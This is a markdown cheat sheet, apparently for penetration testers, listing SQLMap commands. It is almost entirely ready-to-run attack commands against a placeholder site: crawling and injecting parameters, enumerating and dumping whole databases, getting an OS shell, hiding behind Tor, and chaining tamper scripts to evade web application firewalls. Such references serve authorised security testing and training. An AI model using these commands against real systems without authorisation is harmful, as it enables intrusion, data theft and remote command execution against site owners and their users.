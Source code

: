 # SQLMap

## Simple Usage

### Blindly run SQLMap against the target site. 
"--crawl" will crawl and attack the site.
```
sqlmap -u "https://target_site.com/page/" --crawl=2
```

### Automatic GET request parameter
```
sqlmap -u “https://target_site.com/page?p1=value1&p2=value2”
```

### Specify the GET request parameters to exploit
Specify the parameters you want to check with the "-p" flag and a comma separated list of params to check.
```
sqlmap -u “https://target_site.com/page?p1=value1&p2=value2” -p p1
```

### Use POST requests, testing all parameters. (Use -p flag to specify which ones to test)
```
sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2"
```

### Use Burp Suite request file as input.
In Burp HTTP History, right-click and "Copy to File" a request. You can then specify the target parameter or allow SQLMap to automatically detect.
```
sqlmap -r request.txt
```

### Use Authenticated Session with Auth Headers
```
sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --headers="Authorization: Basic YWxhZGRpbjpvcGVuc2VzYW1l"
```

### Basic Authentication
```
sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --auth-type=basic --auth-cred=username:password
```
### Use Previously Created Session as Input (-s)
If you've got a previous SQL injection true positive somewhere, then SQLMap will automatically create a session file (.sqlite) for later use. Now, if you want to try some other commands with that session later on, you can use the session file directly. This will save you time so you don't have to wait for SQLMap to refind the vuln. 
``` 
sqlmap -u “https://target_site.com/page?p1=value1" -s SESSION-FILE.sqlite --dbs
```

## Post Exploitation Commands
If the SQL Injection vulnerability is a true positive then you can use the following commands to exploit it.

### List the Databases
```
sqlmap -u “https://target_site.com/page?p1=value1” --dbs
```

### List Tables of Database TARGET_DB
```
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB --tables
```

### List Columns of Table TARGET_TABLE of Database TARGET_DB
```
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE --columns
```

### Dump Specific Data of Columns of Table TARGET_TABLE of Database TARGET_DB
```
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE -C "Col1,Col2" --dump
```

### Fully Dump Table TARGET_TABLE of Database TARGET_DB
```
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE --dump
```

### Dump full Database
```
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB --dump
```

### Custom SQL query
```
sqlmap -u “https://target_site.com/page?p1=value1” --sql-query "SELECT * FROM TARGET_DB;"
```

### Get OS Shell
```
sqlmap -u “https://target_site.com/page?p1=value1” --os-shell
```

### Get SQL Shell
```
sqlmap -u “https://target_site.com/page?p1=value1” --sqlmap-shell
```

## Proxying SQLMap

### Proxy Through BrupSuite
```
sqlmap -u “https://target_site.com/page?p1=value1” --proxy="http://127.0.0.1:8080/"
```

### Use Tor Socks5 Proxy
```
sqlmap -u “https://target_site.com/page?p1=value1” --tor --tor-type=SOCKS5 --check-tor --dbs
```

## Extras

### Specify the Database Type
You can use other DBMS types like MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase, SAP MaxDB, Informix, MariaDB, Percona, MemSQL, TiDB, CockroachDB, HSQLDB, H2, MonetDB, Apache Derby, Amazon Redshift, Vertica, Mckoi, Presto, Altibase, MimerSQL, CrateDB, Greenplum, Drizzle, Apache Ignite, Cubrid, InterSystems Cache, IRIS, eXtremeDB, FrontBase, etc.
```
sqlmap -u “https://target_site.com/page?p1=value1” --dbms=mysql
```

### Attack Techniques
"--technique" specifies a letter of letters of the BEUSTQ to control the exploit attempts
* B - boolean based blind
* E - error based
* U - union query based
* S - stacked queries
* T - Time-based blind
* Q - Inline queries

```
sqlmap -u “https://target_site.com/page?p1=value1” --technique=BEUSTQ
```

### Specify the Injection Techniques
You can specify the difficulty levels using two flags. "--level" and "--risk"
```
sqlmap -u “https://target_site.com/page?p1=value1” --risk=3 --level=5
```
*Risk*
This option requires an argument that specifies the risk of tests to perform. There are three risk values:
* 1 - the default value. No need to specify
* 2 - Adds to the default risk set - heavy query time-based SQL injections
* 3 - Adds or-based SQL injection tests.

*Level*
This option requires an argument that specifies the additional parameters to test. There are five level values:
* 1 - GET + POST Parameters
* 2 - Add HTTP Cookies
* 3 - Add User-Agent / Referer
* 4 - Enables more payloads for certain techniques, not necessarily new parameters to test.
* 5 - Adds Host header and additonal payloads for certain techniques.

When increasing to Level 2 or above, consider how your authentication schema may be effected. If you have session tokens that need to be persistent then you'll want to bypass testing of certain cookies. 
```
sqlmap -u "https://target_site.com/page?p1-value" --level=2 --cookie="PHPSESSID=...." --param-exclude="PHPSESSID"
```

### Use Default Options for the Process
Use "--batch" flag to use all the default options to create a non-interactive session. (By specifying the batch flag, sqlmap will not ask you for the (Y/N) choices but instead will smartly choose according to the needs.)
```
sqlmap -u “https://target_site.com/page?p1=value1” --batch
```

### Force-SSL
If you are getting errors with connections (found while proxying through BurpSuite quite often) or are getting SSL connection errors then force an SSL connection.
```
sqlmap -u "https://target_site.com/page?p1=value" --force-ssl
```

### Tamper Scripts
Tamper scripts can be used to bypass WAF implementations or modify a payload. Multiple tamper scripts can be used at once by specifying them via a comma separated list.
```
sqlmap -u “https://target_site.com/page?p1=value1” --tamper=charencode
```
General Purpose Usecase:
```
--tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
```
MSSQL:
```
--tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dsash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
```
MySQL:
```
--tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
```



